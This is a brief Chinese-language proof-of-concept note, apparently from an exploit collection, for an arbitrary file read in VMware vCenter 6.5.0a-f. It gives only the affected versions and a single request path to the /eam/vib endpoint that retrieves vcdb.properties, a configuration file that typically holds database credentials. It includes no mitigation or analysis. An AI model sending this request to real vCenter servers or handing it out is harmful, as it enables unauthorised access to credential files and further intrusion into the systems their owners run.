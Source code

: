 # VMware vCenter任意文件读取

影响版本：
- VMware vCenter 6.5.0a-f

poc

```
/eam/vib?id=c:\programData\Vmware\vCenterServer\cfg\vmware-vpx\vcdb.properties
```